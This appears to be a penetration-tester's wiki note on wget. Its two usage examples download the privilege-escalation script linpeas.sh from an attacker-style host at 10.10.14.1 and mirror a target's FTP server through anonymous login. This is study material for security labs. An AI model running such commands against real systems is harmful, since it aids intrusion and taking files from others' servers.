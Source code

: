 # ⚙️ wget

Tags: #⚙️
Related to:
See also: [[curl]]
Previous: [[Getting Started]], [[Footprinting]]

## Description

The non-interactive network downloader.

## Usage Examples

### Transfer file

	wget http://10.10.14.1:8000/linpeas.sh

### Download all available files on the target FTP server

	wget -m --no-passive ftp://anonymous:anonymous@<target>

# References